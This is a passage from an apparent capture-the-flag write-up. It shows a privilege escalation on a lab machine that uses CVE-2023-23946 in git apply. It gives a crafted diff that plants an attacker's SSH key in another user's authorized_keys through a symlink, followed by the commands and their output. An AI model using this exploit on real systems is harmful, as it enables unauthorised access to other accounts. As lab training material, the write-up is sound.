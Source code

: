 > https://github.com/git/git/security/advisories/GHSA-r87m-v37r-cwfh

![](/assets/obsidian/c909ec016d4731ed4dece4715c883bca.png)

And the git version on target machine is vulnerable

```bash
cbrown@snoopy:/tmp$ git --version
git version 2.34.1
```

> POC : https://github.com/bruno-1337/CVE-2023-23946-POC

```bash
cbrown@snoopy:/tmp$ vi p
```

```diff
diff --git a/ok b/notok
rename from ok
rename to notok
--
diff --git /dev/null b/notok/kkk
new file mode 100644
index 0000000..e47f4ea
--- /dev/null
+++ b/notok/authorized_keys
@@ -0,0 +1 @@
+ssh-rsa AAAAB3NzaC1yc2E...kMCVDGOy1FvT/enVjxsxpG91YoXDWPH1etLL9IE= kali@kali
```

```bash
cbrown@snoopy:/tmp$ ln -s /home/sbrown/.ssh/ ok
cbrown@snoopy:/tmp$ sudo -u sbrown git apply -v p
Checking patch ok => notok...
Checking patch notok/authorized_keys...
warning: unable to unlink 'ok': Operation not permitted
Applied patch ok => notok cleanly.
Applied patch notok/authorized_keys cleanly.
```
